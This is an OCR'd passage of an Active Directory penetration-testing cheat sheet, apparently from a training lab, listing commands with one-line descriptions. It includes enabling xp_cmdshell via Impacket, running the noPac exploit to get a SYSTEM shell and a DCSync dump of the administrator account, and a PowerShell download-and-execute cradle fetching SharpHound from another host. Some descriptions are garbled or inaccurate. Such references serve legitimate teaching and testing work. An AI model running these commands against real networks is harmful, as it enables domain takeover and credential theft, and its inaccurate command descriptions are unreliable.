 `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth`

    Impacket tool used to connect to a MSSQL server from a Linux-based host.

`SQL> help`

    Used to display mssqlclient.py options once connected to a MSSQL server.

`SQL> enable_xp_cmdshell`

    Used to enable `xp_cmdshell stored procedure` that allows for executing OS commands via the database from a Linux-based host.

`xp_cmdshell whoami /priv`

    Used to enumerate rights on a system using `xp_cmdshell`.

# NoPacCommandDescription`sudo git clone https://github.com/Ridter/noPac.git`

    Used to clone a `noPac` exploit using git. Performed from a Linux-based host.

`sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap`

    Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host.

`sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap`

    Used to exploit the `noPac`/`Sam_The_Admin` vulnerability and gain a SYSTEM shell (`-shell`). Performed from a Linux-based host.

`sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator`

    Used to exploit the `noPac`/`Sam_The_Admin` vulnerability and perform a `DCSync` attack against the built-in Administrator account on a Domain Controller from a Linux-based host.

Transfering Files

    `sudo python3 -m http.server 8001`

    Starts a python web server for quick hosting of files. Performed from a Linux-basd host.

`"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"`

    PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host.

`impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/`

    Starts a impacket `SMB` server for quick hosting of a file. Performed from a Windows-based host.

Trust Relationships — Child > Parent Trusts

`Import-Module activedirectory`

    Used to import the `Active Directory` module. Performed from a Windows-based host.
